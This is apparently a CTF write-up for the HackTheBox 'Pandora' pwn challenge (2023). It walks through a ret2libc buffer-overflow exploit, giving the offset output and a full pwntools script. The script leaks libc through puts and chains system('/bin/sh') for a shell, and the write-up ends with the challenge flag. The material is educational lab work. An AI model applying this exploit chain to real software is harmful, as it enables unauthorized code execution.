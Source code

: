 ```yaml
---
name: Pandora (2023)
event: HackTheBox Cyber Apocalypse - Intergalactic Chase CTF 2023
category: Pwn
description: Writeup for Pandora (Pwn) - HackTheBox Cyber Apocalypse - Intergalactic Chase CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Pandora

## Description

> You stumbled upon one of Pandora's mythical boxes. Would you be curious enough to open it and see what's inside, or would you opt to give it to your team for analysis?

## Solution

Classic ret2libc attack. First, find the offset to RIP.

```bash
cyclic -l haaaaaaa
Finding cyclic pattern of 8 bytes: b'haaaaaaa' (hex: 0x6861616161616161)
Found at offset 56
```

Next, leak lib-c foothold with `puts()` then redirect execution flow to the beginning of the `box` function and this time, ret2system.

```python
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
break *0x4013a5
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './pb'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Lib-C library
libc = ELF('glibc/libc.so.6')

# OFfset to RIP
offset = 56

# Start program
io = start()

# POP RDI from ropper
pop_rdi = 0x40142b
ret = 0x401016

# Payload to leak libc function
payload = flat({
    offset: [
        pop_rdi,
        elf.got.puts,
        elf.plt.puts,
        elf.symbols.box
    ]
})

# Second menu option
io.sendlineafter(b'>', b'2')

# Send the payload
io.sendlineafter(b':', payload)

io.recvlines(3)  # Receive the newlines

# Retrieve got.puts address
got_puts = unpack(io.recv()[:6].ljust(8, b'\x00'))
info("leaked got_puts: %#x", got_puts)

# Subtract puts offset to get libc base
libc.address = got_puts - libc.symbols.puts
info("libc_base: %#x", libc.address)

# System(/bin/sh)
info("system_addr: %#x", libc.symbols.system)
bin_sh = next(libc.search(b'/bin/sh\x00'))
info("bin_sh: %#x", bin_sh)

# Payload to get shell
payload = flat({
    offset: [
        pop_rdi,
        bin_sh,
        ret,
        libc.symbols.system
    ]
})

# Second menu option
io.sendline(b'2')

# Send the payload
io.sendlineafter(b':', payload)

# Got Shell?
io.interactive()
```

Flag: `HTB{r3turn_2_P4nd0r4?!}`
